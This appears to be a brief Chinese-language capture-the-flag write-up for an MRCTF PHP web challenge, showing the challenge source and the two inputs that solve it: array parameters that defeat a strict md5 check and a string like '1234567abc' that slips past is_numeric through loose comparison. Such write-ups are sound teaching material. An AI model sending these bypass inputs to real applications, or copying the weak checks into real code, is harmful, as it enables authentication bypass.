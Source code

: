 ![[Pasted image 20221101080348.png]]
![[Pasted image 20221101080408.png]]

```php
I put something in F12 for you
include 'flag.php';
$flag='MRCTF{xxxxxxxxxxxxxxxxxxxxxxxxx}';
if(isset($_GET['gg'])&&isset($_GET['id'])) {
    $id=$_GET['id'];
    $gg=$_GET['gg'];
    if (md5($id) === md5($gg) && $id !== $gg) {
        echo 'You got the first step';
        if(isset($_POST['passwd'])) {
            $passwd=$_POST['passwd'];
            if (!is_numeric($passwd))
            {
                 if($passwd==1234567)
                 {
                     echo 'Good Job!';
                     highlight_file('flag.php');
                     die('By Retr_0');
                 }
                 else
                 {
                     echo "can you think twice??";
                 }
            }
            else
            {
                echo 'You can not get it !';
            }
		}
	    else
	    {
	        die('only one way to get the flag');
	    }
	}
	else 
	{
	    echo "You are not a real hacker!";
	}
}
else
{
    die('Please input first');
}
}Please input first
```
先使用数组绕过md5函数
```
/?gg[]=1&id[]=2
```
![[Pasted image 20221101081208.png]]
再用弱类型比较绕过
```
passwd=1234567abc
```
![[Pasted image 20221101081422.png]]
#Web #PHP #绕过